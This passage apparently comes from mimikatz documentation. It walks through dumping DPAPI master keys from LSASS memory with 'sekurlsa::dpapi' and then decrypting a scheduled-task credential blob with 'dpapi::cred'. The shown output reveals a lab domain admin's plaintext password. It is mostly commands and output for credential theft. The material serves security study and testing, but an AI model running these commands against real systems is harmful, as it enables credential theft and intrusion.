 ### _I'm feeling lucky_
There is a good chance that `LSASS` process has the key in its cache:
```
mimikatz # sekurlsa::dpapi
[...]
Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : PC-1$
Domain            : LAB
Logon Server      : (null)
Logon Time        : 03/01/2017 22:27:19
SID               : S-1-5-18
         [00000000]
         * GUID      :  {8f530ba2-f7ef-404d-a2b6-eecacb39d1fc}
         * Time      :  03/01/2017 22:27:20
         * MasterKey :  a8aa830045e30c98346c44815ded47ea7ec387a20e4924cb7e1f711d551bfd1c12d0e201ee6f2811cd13f3f4f7269cfe7b3064a27d4cdfd238f0a8c79730e223
         * sha1(key) :  9c30270221bf61d48438ae9f13f579d498c93b09
         [00000001]
         * GUID      :  {5d4e7e0d-d922-4783-8efc-9319b45b1c9a}
         * Time      :  03/01/2017 22:31:30
         * MasterKey :  0a942e9dfc934246081ed23f371c42fc0f9fcb6dcd3285ac210cd64c26dec3adc120eee7abdd56c68acd051850fd923380bc2e3a1558354eac53c2da6e73bbce
         * sha1(key) :  ba02ef86f26c683858d3df3dc961e37b0d47e574
[...]
```
As `mimikatz` loves you, it "auto-adds" masterkeys in a volatile cache:
```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {5d4e7e0d-d922-4783-8efc-9319b45b1c9a}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000046 - 70
  szDescription      : Données d’identification locales
[...]
Decrypting Credential:
 * volatile cache: GUID:{5d4e7e0d-d922-4783-8efc-9319b45b1c9a};KeyHash:ba02ef86f26c683858d3df3dc961e37b0d47e574
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000fe - 254
  credUnk0       : 00004004 - 16388

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 03/01/2017 21:31:30
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:batch=TaskScheduler:Task:{813565C4-C976-4E78-A1CA-8BDAE749E965}
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : LAB\admin
  CredentialBlob : waza1234/a
  Attributes     : 0
```